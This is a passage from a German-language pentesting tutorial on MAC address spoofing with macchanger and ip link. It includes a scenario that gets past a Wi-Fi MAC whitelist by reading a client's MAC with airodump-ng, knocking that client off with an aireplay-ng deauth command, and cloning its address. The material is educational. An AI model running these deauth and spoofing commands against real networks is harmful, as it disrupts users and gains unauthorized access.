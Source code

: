 **MAC zurücksetzen (Original):**
```bash
macchanger -p wlan0

# Setzt auf Permanent MAC zurück
```

**Interface wieder hochfahren:**
```bash
ip link set wlan0 up
```

#### Methode 2: Manuell mit ip

```bash
# Interface down
ip link set wlan0 down

# MAC ändern
ip link set wlan0 address de:ad:be:ef:ca:fe

# Interface up
ip link set wlan0 up

# Verifizieren
ip link show wlan0
# Zeigt: link/ether de:ad:be:ef:ca:fe
```

### MAC Spoofing für Pentesting

**Szenario: MAC-Whitelist umgehen**

1. **Finde erlaubte MAC (aus Passive Recon):**
```bash
# Von vorherigem airodump-ng Scan
# Notiere Client-MAC der verbunden ist: 11:22:33:44:55:66
```

2. **Warte bis Client offline (oder deauth):**
```bash
# Optional: Deauth des Clients
aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0
```

3. **Spoofing:**
```bash
ip link set wlan0 down
ip link set wlan0 address 11:22:33:44:55:66
ip link set wlan0 up
```

4. **Verbinde als dieser Client:**
```bash
# Jetzt hast du die MAC des legitimen Clients
# AP erlaubt deine Verbindung (falls nur MAC-Filter)
```
